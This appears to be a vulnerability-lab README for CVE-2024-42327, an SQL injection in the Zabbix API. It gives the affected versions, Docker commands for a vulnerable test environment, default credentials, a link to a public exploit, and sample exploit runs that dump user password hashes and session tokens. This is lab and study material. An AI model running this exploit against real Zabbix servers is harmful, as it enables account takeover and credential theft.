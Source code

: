# Title
A non-admin user account on the Zabbix frontend with the default User role, or with any other role that gives API access can exploit this vulnerability. An SQLi exists in the CUser class in the addRelatedObjects function, this function is being called from the CUser.get function which is available for every user who has API access.

Vulnerable versions:
6.0.0–6.0.31, 6.4.0–6.4.16 and 7.0.0.

## Metrics
CVSSv2: N\A   
CVSSv3: 9.9 (Critical)

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Find Zabbix Web IP:
```bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' zabbix-web-nginx-mysql
```
Default login/password:
`Admin:zabbix`

Stop Environment and remove network
```bash
docker compose down
docker network rm zabbix-cve-2024-42327-net
```

## Detection and exploitation example
### PoC Exlpoitation:
```bash
git clone https://github.com/aramosf/cve-2024-42327.git
```
```bash
# python3 cve-2024-42327.py -u "http://172.90.240.4:8080/api_jsonrpc.php" -n Admin -p zabbix

Valid session token: 5dcee00f604a687c10161863d349784e
Admin, Zabbix, Administrator, 1, $2y$10$92nDno4n0Zm7Ej7Jfsz8WukBfgSS/U0QkIuu8WkJPihXBb2A1UrEK
guest, , , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06

# python3 cve-2024-42327.py -u "http://172.90.240.4:8080/api_jsonrpc.php" -n guest -p ''

Valid session token: 2ec325bca4aea414ee037b90a5fec463
```

## Exploits and PoCs
[https://github.com/aramosf/cve-2024-42327](https://github.com/aramosf/cve-2024-42327)

## Nuclei Template

## CTF Rooms

## References
[SecurityOnline.info: PoC Exploit Releases for Critical Zabbix Vulnerability – CVE-2024-42327](https://securityonline.info/poc-exploit-releases-for-critical-zabbix-vulnerability-cve-2024-42327/)   
[NIST: CVE-2024-42327](https://nvd.nist.gov/vuln/detail/CVE-2024-42327)   
[Github: zabbix-docker](https://github.com/zabbix/zabbix-docker/)   
[Docker Hub: zabbix](https://hub.docker.com/u/zabbix)   
[Zabbix Documentation: Installation from containers](https://www.zabbix.com/documentation/current/en/manual/installation/containers)   

